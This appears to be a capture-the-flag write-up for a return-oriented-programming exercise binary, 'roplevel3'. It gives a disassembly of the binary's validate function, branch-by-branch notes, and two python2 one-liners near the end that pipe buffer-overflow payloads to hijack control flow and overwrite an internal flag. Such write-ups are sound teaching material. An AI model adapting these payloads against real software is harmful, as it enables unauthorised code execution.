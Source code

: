 ### Analysis

```
pwndbg> disas validate
Dump of assembler code for function validate:
   0x0804928b <+0>:	push   ebp
   0x0804928c <+1>:	mov    ebp,esp
   0x0804928e <+3>:	push   ebx
   0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x08049294 <+9>:	add    ebx,0x2244
   0x0804929a <+15>:	lea    eax,[ebx-0x13d8]
   0x080492a0 <+21>:	push   eax
   0x080492a1 <+22>:	push   DWORD PTR [ebp+0x8]
   0x080492a4 <+25>:	call   0x8049030 <strcmp@plt>
   0x080492a9 <+30>:	add    esp,0x8
   0x080492ac <+33>:	test   eax,eax
   0x080492ae <+35>:	jne    0x80492b7 <validate+44>
   0x080492b0 <+37>:	call   0x80491b6 <func>
   0x080492b5 <+42>:	jmp    0x804931b <validate+144>
   0x080492b7 <+44>:	lea    eax,[ebx-0x13ba]
   0x080492bd <+50>:	push   eax
   0x080492be <+51>:	push   DWORD PTR [ebp+0x8]
   0x080492c1 <+54>:	call   0x8049030 <strcmp@plt>
   0x080492c6 <+59>:	add    esp,0x8
   0x080492c9 <+62>:	test   eax,eax
   0x080492cb <+64>:	jne    0x80492ef <validate+100>
   0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]
   0x080492d3 <+72>:	test   eax,eax
   0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
   0x080492d7 <+76>:	lea    eax,[ebx-0x139c]
   0x080492dd <+82>:	push   eax
   0x080492de <+83>:	call   0x8049050 <puts@plt>
   0x080492e3 <+88>:	add    esp,0x4
   0x080492e6 <+91>:	jmp    0x804931b <validate+144>
   0x080492e8 <+93>:	call   0x80491db <func_internal>
   0x080492ed <+98>:	jmp    0x804931b <validate+144>
=> 0x080492ef <+100>:	lea    eax,[ebx-0x13b0]
   0x080492f5 <+106>:	push   eax
   0x080492f6 <+107>:	push   DWORD PTR [ebp+0x8]
   0x080492f9 <+110>:	call   0x8049030 <strcmp@plt>
   0x080492fe <+115>:	add    esp,0x8
   0x08049301 <+118>:	test   eax,eax
   0x08049303 <+120>:	jne    0x804930c <validate+129>
   0x08049305 <+122>:	push   0x0
   0x08049307 <+124>:	call   0x8049070 <exit@plt>
   0x0804930c <+129>:	lea    eax,[ebx-0x1368]
   0x08049312 <+135>:	push   eax
   0x08049313 <+136>:	call   0x8049050 <puts@plt>
   0x08049318 <+141>:	add    esp,0x4
   0x0804931b <+144>:	nop
   0x0804931c <+145>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804931f <+148>:	leave  
   0x08049320 <+149>:	ret    
End of assembler dump.
```

>0x080492ae <+35>:	jne    0x80492b7 <validate+44>
>
>checks if the number is 1, 
>
>if it is call func then ret and jmp to validate+144 (end)
>
>if it is not jmp to validate+44 and continue
>
> </br>
>0x080492cb <+64>:	jne    0x80492ef <validate+100> 
>
>Checks if the number is 2,
>
>if it is continue
>
>if it is not jmp to 100
>
> </br>
>0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
>
>check if eax is not 0
>
>if eax is not 0 then execute internal_func
>
>if eax is 0 then jmp to validate+144 (end)
>
> </br>
>0x08049303 <+120>:	jne    0x804930c <validate+129>
>
>check if number is 3
>
>if it is 3 then continue and eventually exit
>
>if it is not 3 then continue to validate+129 then to validate+144 (end)

### Answer:



(python2 -c "print('ZZZZYYYYXXXXVVVV' + 'BBBB' + '\x33\x93\x04\x08' + 'CCCC' + '\x21\x93\x04\x08' + '\x44\x93\x04\x08')" ; cat)  | ./roplevel3



https://stackoverflow.com/questions/19398216/why-is-there-a-expecting-comma-error-in-y86-code

https://stackoverflow.com/questions/9617877/assembly-jg-jnle-jl-jnge-after-cmp

https://stackoverflow.com/questions/6261392/printing-all-global-variables-local-variables

https://stackoverflow.com/questions/52024529/whats-the-difference-between-nexti-and-stepi-in-gdb

print (int) internal_mode

(python2 -c "print('ZZZZYYYYXXXX' + '\x28\xb5\x04\x08' + 'BBBB' + '\x34\x93\x04\x08' + 'AAAA' + '\x21\x93\x04\x08' + '\x45\x93\x04\x08')" ; cat) | ./roplevel3

overwrite internal_mode with BBBB

last address is address to main function

